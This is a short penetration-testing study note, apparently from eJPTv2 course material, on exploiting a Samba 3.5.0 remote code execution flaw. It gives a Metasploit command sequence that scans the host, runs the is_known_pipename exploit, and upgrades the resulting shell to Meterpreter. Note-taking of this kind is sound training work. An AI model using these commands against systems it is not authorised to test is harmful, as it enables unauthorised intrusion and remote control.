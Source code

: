 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Linux Exploitation/Linux Exploitation]]"
---
```


# Exploiting Samba

- Linux version of SMB
- Allows Windows systems to access Linux shares and devices
- Samba v3.5.0 is vulnerable to a remote code execution vulnerability
- Shared library is Linux equivalent of a DLL file

## Demonstration

```bash
> db_nmap -sS -sV -O <ip>
> use exploit/linux/samba/is_known_pipename
# check if vulnerable
> check
> run
pwd
ctrl+z
> use post/multi/manage/shell_to_meterpreter
> set LHOST <my_ip>
> set SESSION <id>
> run
> sessions
```
